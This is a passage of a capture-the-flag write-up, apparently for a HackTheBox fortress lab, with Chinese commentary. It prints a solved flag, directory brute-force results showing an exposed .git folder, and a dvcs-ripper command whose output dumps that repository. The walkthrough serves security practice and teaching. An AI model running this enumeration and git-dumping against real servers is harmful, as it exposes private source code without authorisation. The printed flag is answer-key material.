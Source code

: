 ```bash
```

```plaintext title="Flag"
FARADAY{ehlo_@nd_w3lcom3!}
```

## Let's count

尝试进行目录爆破

```plaintext
[15:03:00] 200 -   33B  - /.git/COMMIT_EDITMSG
[15:03:00] 200 -  141B  - /.git/config
[15:03:00] 200 -   23B  - /.git/HEAD
[15:03:00] 200 -   73B  - /.git/description
[15:03:00] 200 -  240B  - /.git/info/exclude
[15:03:00] 200 -    4KB - /.git/index
[15:03:00] 200 -  476B  - /.git/logs/HEAD
[15:03:01] 200 -  476B  - /.git/logs/refs/heads/master
[15:03:01] 200 -   41B  - /.git/refs/heads/master
[15:04:48] 200 -    2KB - /login
[15:04:49] 302 -  218B  - /logout  ->  http://10.13.37.14/login
[15:05:15] 302 -  250B  - /profile  ->  http://10.13.37.14/login?next=%2Fprofile
[15:05:28] 200 -    2KB - /signup
```

发现存在 `.git` 目录，尝试使用 [Github - kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) 进行窃取

```bash
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ ~/tools/dvcs-ripper/rip-git.pl -v -u http://10.13.37.14/.git
[i] Downloading git files from http://10.13.37.14/.git
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: KBnsadeH
[d] found COMMIT_EDITMSG
[d] found config
[d] found description
[d] found HEAD
[d] found index
[!] Not found for packed-refs: 404 NOT FOUND
[!] Not found for objects/info/alternates: 404 NOT FOUND
[!] Not found for info/grafts: 404 NOT FOUND
[d] found logs/HEAD
[d] found objects/15/9f5dc55fbb0e096c935e5c12a3e52d3c7107ad
[d] found objects/ee/b5210f419f8b878826cde74c7990bc8b3d857a
[d] found objects/1e/544c6d3204684420c6dcc1b58a2fdc460121a7
[d] found refs/heads/master
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 95d0aeb5e804397ded0d09ce4e349660400e6602: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/05/014a26ddf72844fb9101454df62beba6c4a143
[d] found objects/86/61e3e354d62d2443029226e2ff98681ac8d19d
[d] found objects/86/b6845bc342029a92ad908781435f95f000fabb
[d] found objects/09/83980a5f749e5387b36e3e9608939b550f4345
[d] found objects/8a/46eaec1625cdfd4fbe24e14da049e611653e73
[d] found objects/0c/4fe2db50a31437f50daabefb9958d75767d599
[d] found objects/8e/ac957a5120eb7e5a6b1f838cfcac1fbd5653c9
[d] found objects/91/b0fc4c816cd0acedb996444c4d3ec6703e3805
[d] found objects/93/cf73e9c5dc8bf95c8f530db5b8ba841d3d1a4d
[d] found objects/95/d0aeb5e804397ded0d09ce4e349660400e6602
[d] found objects/17/b5bd1c0e032f7244363e29fabba9015691f490
[d] found objects/19/326adeb18b6eb245d0fedad135f0df0476d76b
[d] found objects/1b/393db3e482ab736dd3873389c279195992e32d
[d] found objects/9b/5cfcbc57130ae4b466ae85aa21f98a70d35dee
[d] found objects/25/9a9e2c65738b9d749872c944e423531fd92159
```